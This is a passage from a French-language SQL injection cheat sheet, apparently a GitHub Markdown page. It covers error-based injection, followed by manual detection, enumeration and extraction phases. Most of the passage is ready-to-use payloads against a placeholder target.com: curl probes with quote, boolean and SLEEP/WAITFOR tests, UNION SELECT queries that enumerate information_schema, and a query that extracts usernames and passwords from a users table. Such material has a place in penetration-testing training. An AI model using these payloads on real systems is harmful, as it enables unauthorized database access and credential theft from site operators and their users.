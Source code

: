 ### 4. Error-Based SQL Injection
**Utiliser les messages d'erreur** pour extraire des informations

```sql
-- Forcer une erreur avec des données
http://target.com/page.php?id=1' AND extractvalue(1,concat(0x7e,(SELECT version()),0x7e))--
http://target.com/page.php?id=1' AND (SELECT * FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--
```

## 🛠️ Techniques Manuelles Étape par Étape

### Phase 1 : Détection
```bash
# 1. Test de caractères spéciaux
curl "http://target.com/page.php?id=1'"
curl "http://target.com/page.php?id=1\""
curl "http://target.com/page.php?id=1\\"

# 2. Test logique booléen
curl "http://target.com/page.php?id=1' AND 1=1--"
curl "http://target.com/page.php?id=1' AND 1=2--"

# 3. Test de délai
curl "http://target.com/page.php?id=1'; WAITFOR DELAY '00:00:05'--"
curl "http://target.com/page.php?id=1' AND SLEEP(5)--"
```

### Phase 2 : Énumération de la Base
```sql
-- Déterminer le type de base de données
-- MySQL
http://target.com/page.php?id=1' UNION SELECT 1,@@version--

-- PostgreSQL
http://target.com/page.php?id=1' UNION SELECT 1,version()--

-- SQL Server
http://target.com/page.php?id=1' UNION SELECT 1,@@version--

-- Oracle
http://target.com/page.php?id=1' UNION SELECT 1,banner FROM v$version--
```

### Phase 3 : Extraction d'Informations
```sql
-- Lister les bases de données (MySQL)
http://target.com/page.php?id=1' UNION SELECT 1,schema_name FROM information_schema.schemata--

-- Lister les tables
http://target.com/page.php?id=1' UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='database_name'--

-- Lister les colonnes
http://target.com/page.php?id=1' UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='users'--

-- Extraire les données
http://target.com/page.php?id=1' UNION SELECT username,password FROM users--
```
